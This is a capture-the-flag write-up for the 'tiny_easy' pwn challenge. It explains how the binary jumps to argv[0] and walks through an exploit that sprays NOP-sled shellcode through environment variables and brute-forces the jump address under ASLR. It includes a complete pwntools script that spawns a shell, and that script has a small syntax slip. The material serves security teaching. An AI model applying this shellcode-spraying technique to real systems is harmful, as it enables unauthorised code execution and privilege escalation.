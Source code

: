 
# tiny_easy

First thing like in every other pwn, we will start by logging in to the ssh server and exploring what we have to deal with:
![Exploring files](images/ssh_exploring.png)
it seems like we have two files, flag which we cant really open with our current permissions, and tiny_easy which seems to be an elf 32 bit with a corrupted section header.
![file checking](images/file_check.png)
Cool!
Lets open the binary file in ida to see whats going on.
![Ida snapshot](images/ida.png)

The whole binary have only four instructions without even a stack frame.
if we need to convert it to c/psuedo code it will look something like that:
```c
int main(int argc, char* argv) {
	int eax = argc;
	char* edx = argv;
	(*edx)();
}
```

So basicly we are gonna take argv[0] and jump into it.
and whats argv[0]? Just the path to the binary.
We can see this if we run the elf code and see where it fails.
![seg_fault](images/seg_fault.png)
We got seg fault with invalid addres **0x6d6f682f** or in ascii representations, "/hom" which is the first four letters of our binary path!.
so if we can control the name of our binary we have our first primitive which is decide where we are jumping to.

## Finding our first primitive
In order to change argv[0], You can juse use pwntools, which get binary name, and argv so u can control argv[0], or use a builtin linux command called exec:
```bash
exec -a <binary name> ./tiny_easy
```
Since we are using bash we can do something like:
```bash
exec -a `python -c "print(b'\xde\xad\xbe\xef')" ./tiny_easy`
```
And now we can jump to whatever i want!

# Where should we jump
So the hard part in this challenge is to decide where should we jump.
We have two problems:
- libc is not compiled into the binary, and the binary does not contains any gadget we can jump into
- The binary is protected by ASLR so we dont really know what whill be the address when running our exploit

We can run checksec on the binary and find out we doesnt have to deal with NX protection.
So about the first problem, we can try to jump to a shellcode that runs
```c
system("/bin/sh");
```
How can we insert our shellcode?
We can use environment variables since they stored on the stack.
And about the ASLR, we can just spray our shellcode in the stack and try to jump into a random address, we will probably jump on our shellcode after few tries.
To increase our chances to jump on our shellcode, we can put a lot of **nop** instructions, and put the shellcode at the end of the nop's
I writed a simple bash script that puts **'hello' * 1024**
in environment variables and checked with gdb in which address range 'hello' stored
![](images/hello.png)
Now we can try to put something like shellcode and jump to it.
I coded simple python code to exploit this binary:
```python
from pwn import *

context.arch = 'i386'
shellcode = shellcraft.i386.linux.sh()
shellcode = asm(shellcode)


env = {str(i): b'\x90'*1024+shellcode for i in range(100)}

addr = b"\x90\xd5\x9c\xff"

while True:
    try:
        p = process([addr], executable="./tiny_easy" env=env)
        p.wait_for_close()
    except KeyboardInterrupt:
        p.interactive()
```
And i got a shell!
I ran the exact same exploit on the ssh server and:
![](images/success.png)
